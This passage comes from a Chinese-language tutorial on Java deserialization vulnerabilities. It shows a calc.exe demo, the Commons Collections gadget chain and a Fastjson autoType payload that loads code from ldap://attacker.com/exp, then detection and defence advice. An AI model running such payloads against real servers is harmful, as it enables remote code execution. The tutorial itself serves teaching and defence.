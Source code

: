 **④漏洞触发流程：**  
**启动服务端：**运行VulnerableServer，监听8888端口。**启动攻击者客户端：**运行AttackerClient，向服务端发送恶意序列化对象。**漏洞触发：**服务端反序列化数据时，自动调用VulnerableObject.readObject()，执行calc.exe弹出计算器。  
- **2.4 历史案例**  
  
**①Apache Commons Collections漏洞（CVE-2015-7501）**  
  
**影响范围：**  
3.1版本及以下**核心类：**InvokerTransformer, ChainedTransformer**利用代码：**  
# Transformer[] transformers = new Transformer[] {  new ConstantTransformer(Runtime.class),  new InvokerTransformer("getMethod", ...),  new InvokerTransformer("invoke", ...),  new InvokerTransformer("exec", ...)};  
  
**②Fastjson反序列化漏洞（CVE-2017-18349）**  
  
**漏洞根源：**  
autoType特性绕过**攻击方式：**构造恶意JSON利用JNDI注入**示例Payload：**  
# {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://attacker.com/exp"}  
# 3.漏洞检测与防御  
- **3.1 漏洞检测**  
  
**静态代码分析：**  
使用工具（如FindBugs、SonarQube）扫描代码，查找反序列化操作。**动态测试：**使用工具（如ysoserial、Burp Suite）生成恶意序列化数据，测试目标系统是否易受攻击。**日志监控：**监控反序列化操作的日志，查找异常行为。  
- **3.2 防御措施**  
  
**避免反序列化不可信数据：**  
不要反序列化来自不可信来源的数据。**使用白名单机制：**限制反序列化过程中可加载的类。**升级依赖库：**及时更新存在漏洞的第三方库（如Apache Commons Collections）。**使用安全的序列化框架：**例如Google的Protobuf、Kryo等。**启用安全管理器：**通过Java安全管理器（SecurityManager）限制反序列化操作的权限。  
# 4.总结  
  
Java反序列化漏洞是一种危害性极大的安全漏洞，广泛存在于Java应用程序中。由于其利用门槛低、影响范围广，开发者和安全团队需要高度重视。通过加强代码审计、升级依赖库、使用安全的序列化框架等措施，可以有效降低反序列化漏洞的风险。随着Java生态系统的不断发展，反序列化漏洞的利用方式和防御手段也在不断演进。建议开发者和安全研究人员持续关注相关漏洞动态，及时采取防护措施。  
  
  
  
